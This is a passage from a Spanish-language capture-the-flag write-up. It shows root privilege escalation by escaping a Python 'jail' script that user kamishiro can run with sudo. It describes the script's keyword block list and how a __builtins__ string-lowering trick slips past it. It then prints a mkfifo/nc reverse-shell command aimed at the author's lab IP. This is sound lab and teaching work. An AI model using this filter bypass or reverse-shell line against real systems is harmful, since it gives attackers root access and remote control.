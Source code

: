 Podemos observar que aparece el termino (ALL) al lado del archivo binario python3 y su script. Esto significa que el usuario kamishiro puede ejecutar el script Python utilizando el archivo binario python3 con los privilegios del usuario root a través del comando sudo.

Ahora observaremos el contenido del script jail.py a traves del editor de texto de terminal nano.

![](/assets/images/Tokyo/image067.png)

Podemos observar que el código del script primero va a mostrar un mensaje de bienvenida. Luego, va a solicitar al usuario que ingrese un comando. Además,se utiliza un bucle for para verificar si el comando ingresado contiene palabras clave potencialmente peligrosas como 'eval', 'exec', 'import', 'open', 'os', 'read','system' o 'write', y si encuentra alguna palabra clave en el comando ingresado, se imprime un mensaje advirtiendo sobre su uso no se ejecuta el comando, pero si el comando no contiene ninguna palabra clave peligrosa, se ejecuta utilizando la función exec(), lo que permite la ejecución del código ingresado por el usuario.

Ahora teniendo en cuenta esto ejecutaremos el script, e ingresaremos el siguiente comando para generar una conexión reverse Shell.

![](/assets/images/Tokyo/image069.png)

Los componentes de este comando son:
-  __builtins__.__dict__: El módulo integrado __builtins__ de Python contiene todas las funciones, módulos, y clases básicas de Python. Además, a  través del atributo __builtins__, podre acceder a los módulos de Python.
-  '__IMPORT__'.lower(): Esto devuelve el módulo __import__, que es una función incorporada de Python utilizada para importar módulos.
-  ('OS'.lower()):Esto devuelve la cadena 'os', que es el nombre del módulo que deseamos importar.
-  __dict__'SYSTEM'.lower():Esto devuelve la función os.system(), que se utiliza para ejecutar comandos en el sistema operativo.
-  'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1900 >/tmp/f': Este comando nos generara una conexión reverse Shell hacia nuestro  sistema.
